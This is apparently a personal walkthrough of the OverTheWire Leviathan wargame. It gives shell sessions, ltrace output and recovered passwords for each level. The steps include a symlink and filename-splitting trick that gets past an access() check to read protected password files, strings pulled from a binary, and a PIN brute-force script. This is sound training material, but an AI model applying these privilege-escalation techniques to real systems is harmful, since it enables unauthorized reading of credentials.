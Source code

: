 # Leviathan
No instructions are given for any of the leviathan levels.

### lvl-0
There is a `.backup` folder in home with a `bookmarks.html` file inside.
```bash
$ grep pass .backup/bookmarks.html 
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```
rioGegei8m

### lvl-1
There is a binary (c program) in home called `check`. Running a hex-dump using
`xxd` reveals some hard coded strings:
```
000006e0: e073 6578 00c7 45d9 7365 6372 66c7 45dd  .sex..E.secrf.E.
000006f0: 6574 c645 df00 c745 d567 6f64 00c7 45d0  et.E...E.god..E.
00000700: 6c6f 7665 c645 d400 83ec 0c8d 8320 e8ff  love.E....... ..
```
Trying them as passwords through `check` gets us an `sh` shell with leviathan2
permissions:
```bash
$ ./check
password: sex

$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

### lvl-2
There's a `printfile` binary in home. We need to find a vulnerability and
exploit it. (I looked this one up but it has shown me a good technique for
future ones!)
```bash
# ltrace shows the lib calls made by a binary
$ ltrace ./printfile /tmp/foo.txt

# touch a file then try to print it using the program
$ touch /tmp/foo.txt
$ ltrace ./printfile /tmp/foo.txt
__libc_start_main(0x565556c0, 2, 0xffffd724, 0x565557b0 <unfinished ...>
access("/tmp/foo.txt", 4)                                                                     = 0
snprintf("/bin/cat /tmp/foo.txt", 511, "/bin/cat %s", "/tmp/foo.txt")                         = 21
geteuid()                                                                                     = 12002
geteuid()                                                                                     = 12002
setreuid(12002, 12002)                                                                        = 0
system("/bin/cat /tmp/foo.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                        = 0
+++ exited (status 0) +++
```

```bash
# `access` checks that we have perms for the filename that we passed, but 
#  the call to `cat` doesn't shell escape so we can try a file with a
# space in it. `cat` should treat it as two files _after_ we have passed the
# permission check.
$ touch /tmp/foo\ bar.txt
$ ./printfile /tmp/foo\ bar.txt
/bin/cat: /tmp/foo: No such file or directory
/bin/cat: bar.txt: No such file or directory

# Now we just symlink /tmp/foo to /etc/leviathan_pass/leviathan3 and give it a go
$ ln -s /etc/leviathan_pass/leviathan3 /tmp/foo
$ ./printfile /tmp/foo\ bar.txt
Ahdiemoo1j
/bin/cat: bar.txt: No such file or directory
```

### lvl-3
This time there is a binary called `level3` in home. Running `ltrace` on it
shows that several hard-coded string comparisons are being done:
```bash
$ ltrace ./level3 
__libc_start_main(0x565557b4, 1, 0xffffd744, 0x56555870 <unfinished ...>
strcmp("h0no33", "kakaka")                                                                    = -1
printf("Enter the password> ")                                                                = 20
fgets(Enter the password> foo
"foo\n", 256, 0xf7fc55a0)                                                               = 0xffffd550
strcmp("foo\n", "snlprintf\n")                                                                = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                                    = 19
+++ exited (status 0) +++
```

I'm not sure how to get at that first one but it looks like whatever we enter
as a password gets compared to `snlprintf`. Entering this gives us a shell:
```bash
$ ./level3 
Enter the password> snlprintf
[You\'ve got shell]!
$ whoami
leviathan4  # Looks like we have the correct perms to get the password!
$ cat /etc/leviathan_pass/leviathan4
qvuH0coox6m
```

So...that's the password but what is up with the `strcmp("h0no33", "kakaka")`
line? That always fails unless there is a way to change one of the strings...
-> Look into how to use gdb properly!
- It looks like none of the three strings (h0no33, kakaka or snlprintf) are in
  the binary itself...so where do they come from?

### lvl-4
Nothing visible in home but there is a hidden `.trash` folder with a `bin`
binary in it. Running it gives the following output:
```
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010 
```
Running under ltrace gives:
```bash
$ ltrace ./bin
__libc_start_main(0x56555640, 1, 0xffffd724, 0x56555750 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r")                                                  = 0
+++ exited (status 255) +++
```

It's nothing exiting...it's just binary encoded ASCII...
```bash
$ ./data | /tmp/bintoascii.py  # File in this repo
Tith4cokei
```

### lvl-5
OK, this one looks more fun! There is a binary called `leviathan5` in home.
Running it gives the following output:
```bash
$ ./leviathan5
Cannot find /tmp/file.log
```
Creating the file with some contents gives us this:
```bash
$ echo "AB" >> /tmp/file.log
$ ltrace ./leviathan5 
__libc_start_main(0x56555760, 1, 0xffffd744, 0x56555840 <unfinished ...>
fopen("/tmp/file.log", ":r")                                                                   = 0x56558008
fgetc(0x56558008)                                                                             = 'A'
feof(0x56558008)                                                                              = 0
putchar(65, 0x565558c0, 1, 0x56555777)                                                        = 65
fgetc(0x56558008)                                                                             = 'B'
feof(0x56558008)                                                                              = 0
putchar(66, 0x565558c0, 1, 0x56555777)                                                        = 66
fgetc(0x56558008)                                                                             = '\n'
feof(0x56558008)                                                                              = 0
putchar(10, 0x565558c0, 1, 0x56555777AB
)                                                        = 10
fgetc(0x56558008)                                                                             = '\377'
feof(0x56558008)                                                                              = 1
fclose(0x56558008)                                                                            = 0
getuid()                                                                                      = 12005
setuid(12005)                                                                                 = 0
unlink("/tmp/file.log")                                                                       = 0
+++ exited (status 0) +++
```
Ah, I'm an idiot. Symlink trick again...so, any time a file cats out or shows a
hard-coded file name, symlink it to something you want to see! It looks like
`fopen` does correct permissions checks for the caller so this isn't a magic
bullet but it's worth a try.
```bash
$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
$ ./leviathan5 
UgaoFee4li
```

### lvl-6
Simple binary wanting a 4-digit pin. Brute force time!
```bash
leviathan6@leviathan:~$ python3
Python 3.5.3 (default, Jan 19 2017, 14:11:04) 
[GCC 6.3.0 20170118] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from itertools import permutations
>>> from subprocess import check_output
>>> 
>>> 
>>> # Generate all 4-digit codes
... four_digit_codes = permutations(range(10), 4)
>>> 
>>> for ix, code in enumerate(four_digit_codes):
...     str_code = ''.join(str(c) for c in code)
...     result = check_output(['/home/leviathan6/leviathan6', str_code])
...     if b'Wrong' not in result:
...         print(code)
...         print(result)
... 

/bin/sh: 1: Syntax error: "(" unexpected (expecting "then")
(7, 1, 2, 3)
b''
>>> 
>>> 
Error in atexit._run_exitfuncs:
PermissionError: [Errno 13] Permission denied

leviathan6@leviathan:~$ ./leviathan6 7123
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```

### lvl-7
This is just a congratulations file saying well done for finishing :)
